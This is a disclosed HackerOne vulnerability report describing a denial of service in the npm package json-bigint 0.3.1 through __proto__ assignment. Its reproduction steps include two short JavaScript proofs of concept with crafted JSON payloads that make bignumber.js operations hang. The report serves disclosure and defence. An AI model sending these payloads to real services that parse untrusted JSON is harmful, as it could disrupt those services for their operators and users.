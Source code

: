 # [json-bigint] DoS via `__proto__` assignment

## Report Details
- **Report ID**: 916430
- **URL**: https://hackerone.com/reports/916430
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-06T07:06:56.720Z
- **Disclosed**: 2020-08-25T22:40:36.029Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a DoS in `json-bigint`.
It allows to cause denial of service using very limited input (~70 bytes).

# Module

**module name:** `json-bigint`
**version:**  0.3.1
**npm page:** `https://www.npmjs.com/package/json-bigint`

## Module Description

> JSON.parse/stringify with bigints support. Based on Douglas Crockford JSON.js package and bignumber.js library.

## Module Stats

2 301 424 weekly downloads

# Vulnerability

## Vulnerability Description

Json parsing library assigns to `__proto__`, which can be abused to confuse `bignumber.js` library, causing a DoS on various operations with the resulting number (stringification, arithmetic) via a very small input (70 bytes).

## Steps To Reproduce:

```js
const JSONbig = require('json-bigint')
const json = '{"__proto__":1000000000000000,"c":{"__proto__":[],"length":1e200}}'
const r = JSONbig.parse(json)
console.log(r.toString())
```

Note that the object parsed, but an attempt to convert it to a string (or to do any arithmetic operation on it) will hang.

Demo with arithmetic operation hanging:
```js
const JSONbig = require('json-bigint')
const json = '{"__proto__":1000000000000000,"c":{"__proto__":[],"0":42,"length":2}}'
const r = JSONbig.parse(json)
r.dividedBy(42)
```

## Patch

Be careful when assigning to `__proto__` value.

## Supporting Material/References:

- [OPERATING SYSTEM VERSION]: `Linux xps 5.7.6-arch1-1 #1 SMP PREEMPT Thu, 25 Jun 2020 00:14:47 +0000 x86_64 GNU/Linux`
- [NODEJS VERSION]: 14.5.0

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

## Impact

Denial of service via untrusted input.

## Attachments
No attachments
